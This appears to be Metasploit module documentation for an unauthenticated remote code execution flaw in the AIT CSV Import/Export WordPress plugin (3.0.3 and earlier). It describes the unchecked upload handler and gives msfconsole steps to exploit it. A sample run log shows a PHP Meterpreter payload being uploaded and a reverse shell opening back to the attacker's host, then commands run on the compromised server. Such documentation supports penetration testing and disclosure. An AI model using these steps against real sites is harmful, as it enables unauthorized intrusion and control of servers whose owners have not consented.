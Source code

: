 ## Vulnerable Application

The AIT CSV Import/Export plugin <= 3.0.3 allows unauthenicated
remote attackers to upload and execute arbitrary PHP code. The
`upload-handler` does not require authentication, nor validates the
uploaded content. It may return an error when attempting to parse as
CSV, however the uploaded shell is left. The shell is uploaded to
`wp-content/uploads/`.

The plugin is not free and can be downloaded from https://www.ait-themes.club/wordpress-plugins/csv-import-export/.
Once uploaded, the plugin does NOT need to be activated to be exploitable, just installed.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use exploits/multi/http/wp_ait_csv_rce`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### AIT CSV Import / Export 3.0.3 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
[*] Processing ait.rb for ERB directives.
resource (ait.rb)> use exploits/multi/http/wp_ait_csv_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (ait.rb)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (ait.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ait.rb)> check
[*] 2.2.2.2:80 - The target appears to be vulnerable.
resource (ait.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Uploading payload: W1I6X0.php
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41504) at 2021-01-01 11:56:16 -0500
[+] Deleted W1I6X0.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
